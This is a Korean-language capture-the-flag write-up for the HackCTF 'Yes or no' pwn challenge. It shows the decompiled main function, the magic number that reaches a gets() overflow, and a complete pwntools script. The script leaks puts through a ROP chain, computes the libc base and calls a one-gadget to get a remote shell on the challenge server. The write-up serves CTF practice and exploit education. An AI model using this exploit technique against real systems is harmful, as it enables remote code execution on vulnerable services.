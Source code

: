```yaml
---
title: "[HackCTF]Yes or no"
date: 2019-12-26
ctf: HackCTF
layout: post
published : false
---
```


문제 의도는 그냥 ++전에 오는지 후에 오는지로 값 어떻게 나오는지 알아서 값을 맞춰주도록 해서 취약점으로 유도하는게 의도였던거 같다. 문제 서버는 ubuntu 18.04다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // eax
  char s; // [rsp+Eh] [rbp-12h]
  int input; // [rsp+18h] [rbp-8h]
  int v11; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v11 = 5;
  puts("Show me your number~!");
  fgets(&s, 10, stdin);
  input = atoi(&s);
  if ( (v11 - 10) >> 3 < 0 )
  {
    v4 = 0;
  }
  else
  {
    v3 = v11++;
    v4 = input - v3;
  }
  if ( v4 == input )
  {
    puts("Sorry. You can't come with us");
  }
  else
  {
    v5 = 1204 / ++v11;
    v6 = v11++;
    if ( input == v6 * v5 << (++v11 % 20 + 5) )
    {
      puts("That's cool. Follow me");
      gets(&s);
    }
    else
    {
      v7 = v11--;
      if ( input == v7 )
      {
        printf("Why are you here?");
        return 0;
      }
      puts("All I can say to you is \"do_system+1094\".\ngood luck");
    }
  }
  return 0;
}
```

입력한 숫자 정수형을 바꿔서 취약점 터지는 부분에 가게 하면 된다.

```
if ( input == v6 * v5 << (++v11 % 20 + 5) )
{
	puts("That's cool. Follow me");
	gets(&s);
}
```

취약점은 여기에서 터진다. 그래서 input값을 구해주면 된다.

![](https://user-images.githubusercontent.com/32904385/71475652-898eeb00-2824-11ea-8b21-9cb91fea4988.png)

그냥 c로 짜서 나온 결과 가져왔다. 결과는 `9830400` 이면 통과해서 `gets(&s)` 로 갈 수 있게된다.

그래서 `9830400` 들어가서 gets로 ret 바꿔서 puts leak하고 main으로 돌려서 oneshot 날려주면 된다. 그냥 문제에 라이브러리도 줘서 쉽게 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
e = ELF('./yes_or_no')
# p = process('./yes_or_no')
p = remote('ctf.j0n9hyun.xyz',3009)
libc = ELF('./libc-2.27.so')
prdi = 0x0000000000400883 # pop rdi ; ret

p.sendlineafter('!\n',str(9830400))

payload = '\x90' * 0x12
payload += 'realsung'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('me\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('!\n',str(9830400))

payload2 = '\x90' * 0x12
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('me\n',payload2)

p.interactive()
```

